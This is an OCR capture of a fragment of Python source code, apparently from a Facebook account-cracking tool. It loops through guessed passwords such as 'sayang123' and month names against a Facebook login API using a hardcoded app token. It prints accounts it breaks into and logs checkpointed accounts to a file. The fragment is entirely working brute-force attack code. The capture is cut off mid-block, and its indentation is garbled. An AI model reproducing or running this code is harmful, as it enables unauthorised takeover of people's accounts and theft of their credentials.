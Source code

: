 										else:
											#Pass5
											pass5 = "sayang123","sayangku123"
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
												z = json.loads(x.text)
												print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass5+" =>"+z['name'])
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													cek = open("out/super_cp.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													#Pass6
													pass6 = "bintang123","bintang12345"
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
														x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
														z = json.loads(x.text)
														print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass6+" =>"+z['name'])
														oks.append(user+pass6)
													else:
														if 'www.facebook.com' in q["error_msg"]:
															cek = open("out/super_cp.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															#Pass7
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = "sayang","doraemon","bintang","someone","bajingan","anjing","pukimak","playboy"
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
															q = json.load(data)
															if 'access_token' in q:
																x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
																z = json.loads(x.text)
																print("\033[1;97m[ \033[1;92m✓\033[1;97m ] "+user+"|" +pass7+" =>"+z['name'])
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	cek = open("out/super_cp.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
                                                                                                                                else:
                                                                                                                                        #Pass8
                                                                                                                                         a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
                                                                                                                                         b = json.loads(a.text)
                                                                                                                                         pass8 = "januari","februari","maret123","april","mei123","juni123","juli123","agustus","september","november","desember"